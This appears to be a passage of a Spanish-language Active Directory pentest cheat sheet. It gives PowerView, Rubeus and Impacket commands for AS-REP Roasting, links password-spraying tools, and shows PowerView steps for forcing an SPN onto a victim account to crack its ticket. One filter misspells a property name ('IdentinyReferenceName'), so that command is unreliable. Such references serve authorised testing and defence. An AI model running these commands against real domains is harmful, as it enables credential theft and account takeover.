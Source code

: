 ```powershell
#Obtener el hash de una cuenta específica:
Get-ASREPHash -UserName <UserName> -Verbose

#Obtener los hashes de los usuarios ASREPRoast:
Invoke-ASREPRoast -Verbose
```

- Usando Rubeus:

```powershell
#Intentando el ataque para todos los usuarios del dominio
Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

#Usuario específico de ASREPRoast
Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

#Usuarios de ASREPRoast de una OU (Unidad Organizativa) específica
Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

- Usando Impacket:

```powershell
#Intentando el ataque para los usuarios especificados en el archivo
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
```

### Ataque de rociado de contraseñas

Si hemos obtenido algunas contraseñas comprometiendo una cuenta de usuario, podemos usar este método para intentar explotar la reutilización de contraseñas en otras cuentas de dominio.

**Herramientas:**

- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
- [Spray](https://github.com/Greenwolf/Spray)

### Forzar la configuración de SPN

¿Qué es esto?:
Si tenemos suficientes permisos -> GenericAll/GenericWrite, podemos configurar un SPN en una cuenta de destino, solicitar un TGS, obtener su blob y aplicarle fuerza bruta.

- PowerView:

```powershell
#Comprobar permisos interesantes en las cuentas:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}

#Comprobar si el usuario actual ya tiene un SPN configurado:
Get-DomainUser -Identity <UserName> | select serviceprincipalname

#Forzar la configuración del SPN en la cuenta:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```

